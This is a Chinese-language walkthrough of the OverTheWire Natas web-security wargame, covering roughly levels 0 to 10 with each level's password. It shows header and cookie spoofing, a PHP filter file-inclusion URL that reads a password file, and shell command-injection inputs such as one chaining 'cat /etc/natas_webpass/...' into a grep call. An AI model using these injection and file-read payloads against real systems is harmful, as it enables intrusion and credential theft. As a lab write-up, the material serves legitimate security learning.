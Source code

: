 [Natas](http://overthewire.org/wargames/natas/)

1、
http://natas0.natas.labs.overthewire.org/
输入账号密码登录后，查看源代码：
The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto

2、
http://natas1.natas.labs.overthewire.org/
同样查看源代码：
The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

3、
http://natas2.natas.labs.overthewire.org/
查看源码：
发现有个图片，还有个目录files
**敏感目录很重要**
打开后发现两个文件
点击users.txt得到密码：
```
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

4、
http://natas3.natas.labs.overthewire.org/
提示：
Not even Google will find it this time
联想robots.txt,网站通过robots协议告诉搜索引擎哪些页面可以爬取。
谷歌不能爬取，证明robots中定义了不能爬取

打开robots.txt

Disallow: /s3cr3t/

访问：
打开users.txt
发现：
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

5、
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 
提示Referer头
请求头中加入：
Referer:http://natas5.natas.labs.overthewire.org/
结果：
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

6、
访问发现响应头中有：
Set-Cookie: loggedin=0
且响应Body中显示没登录
证明登不登录是根据cookie设置的（不安全）
请求头中加入
Cookie:loggedin=1
结果：
The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
7、
登录，有一个输入框，查看源码：
```
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>
```

发现敏感文件
includes/secret.inc
打开后出现secret
FOEIUWGHFEEUHOFUOIU
输入框中输入后出现密码：
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
告诉我们别把敏感信息放在用户可以访问的页面


7.
查看源代码：

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

证明要访问指定文件

源文件中还有两行有意思的代码：
```
<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
```
证明可能存在文件包含
http://natas7.natas.labs.overthewire.org/index.php?page=php://filter/read=convert.base64-encode/resource=/etc/natas_webpass/natas8
得到密码：

REJmVUJmcVFHNjlLdkp2SjFpQWJNb0lwd1NOUTliV2UK 

再base64解密得到密码：
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
 
 8.
 输入框，同样查看源代码：
 ```
<?
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
 ```
 解密3d3d516343746d4d6d6c315669563362后得到
 oubWYf2kBq
 
 输入secret得到密码：
 The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl 

 9.
 同样是代码审计：
 <pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

命令执行漏洞

flag;cat /etc/natas_webpass/natas9 && file
得到密码:
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

10.
For security reasons, we now filter on certain characters
提示过滤了一些字符串
```
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
看来不能使用;|&

grep 可以在多个文件中搜搜，所以可以使用命令
grep -i '' /etc/natas_webpass/natas11 dictionary.txt
'' /etc/natas_webpass/natas11
即填入：

最后得到密码：U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

11.

